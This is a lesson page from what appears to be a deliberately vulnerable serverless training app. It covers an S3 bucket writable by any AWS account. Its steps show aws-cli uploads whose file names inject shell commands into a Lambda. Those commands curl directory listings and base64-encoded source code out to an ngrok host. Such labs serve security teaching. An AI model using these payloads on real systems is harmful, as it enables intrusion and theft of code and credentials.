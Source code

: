 
# LESSON #4: Insecure Cloud Configuration

The DVSA uses cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipt is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-cli, you can simply run the command: 

`aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}`

![alt s3-upload](https://i.imgur.com/ClSnqeX.png)

*Note, that you won't be able to run `ls` with an account different than the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receipt-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. `2018/12/24/{receipt-uuid}.txt`.

2. So let's fake a receipt and see what happens. Using the aws-cli we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;curl 0c971764.ngrok.io?data="$(ls)";echo x.raw' --acl public-read --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

If we follow the path (_cd;_ your way in), eventually we will get:
![alt ls](https://i.imgur.com/mu2ky2O.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;curl 0c971764.ngrok.io?code="$(cd x; cd y; cd z; cat send-receipt-email.py.py | base64 --wrap=0)" echo x.raw' --acl public-read --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: `echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py`

![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/LESSON_05.md) or executing any other command.


- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

